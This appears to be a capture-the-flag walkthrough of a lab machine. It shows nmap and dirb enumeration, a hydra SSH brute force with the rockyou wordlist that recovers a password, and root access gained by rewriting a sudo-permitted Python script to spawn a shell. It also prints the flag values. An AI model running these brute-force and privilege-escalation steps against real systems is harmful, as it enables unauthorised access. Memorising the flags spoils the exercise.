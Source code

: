 # Information Gathering
> nmap -A $TARGET > nmapres.txt

port 80 open, so let's check it.
  * View page source :
  * on nmap resaults: *http-robots.txt: 1 disallowed entry*

Every link has a href to homepage '<a href="#">' --> xss is not a good choice

lets find other dirs:
> dirb http://$TARGET /usr/share/wordlists/dirb/common.txt
found 3 resaults:
'''
	==> DIRECTORY: http://10.10.42.55/images/                                                          
	+ http://10.10.42.55/index.html (CODE:200|SIZE:5439)                                               
	+ http://10.10.42.55/robots.txt (CODE:200|SIZE:33)                                                 
	+ http://10.10.42.55/server-status (CODE:403|SIZE:299) 
'''
We can conclude there's something on robots.txt:
'''
	User-agent: rockyou 
	Disallow: /
'''
rockyou is the wordlist we use for weak common passwords
user-agent would be a username mentioned somewhere

SMB is closed to find users; So we have to find it manually

back to homepage :
> Posted on June 29th 2009 by **meliodas**

lets hydra meliodas : rockyou.txt on ssh
> hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$TARGET
Found!!!
[22][ssh] host: 10.10.42.55   login: meliodas   password: iloveyou1

---

Now we logged in as meliodas in the machine,
lets ls the home dir of meliodas

'''
	-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
	-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
'''
we have the user flag.

# Root flag

let's see what bak.py does;
It backups the whole website in /var/backups
but it requiers some root privilages
so let's see what we can do with sudo
> sudo -l
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

We can run the bak.py script as root
so let's write a script to give us shell access; But bak.py is -rw-r--r-- so it's write-protected. The solution is EZ! just remove and write again

> rm bak.py
> nano bak.py ( # vim wasn't there!!!)
'''
import pty

pty.spawn("/bin/sh")

'''
now if we run it we have a root tty and we can read root flag
> # cat /root/root.txt
e8c8c6c256c35515d1d344ee0488c617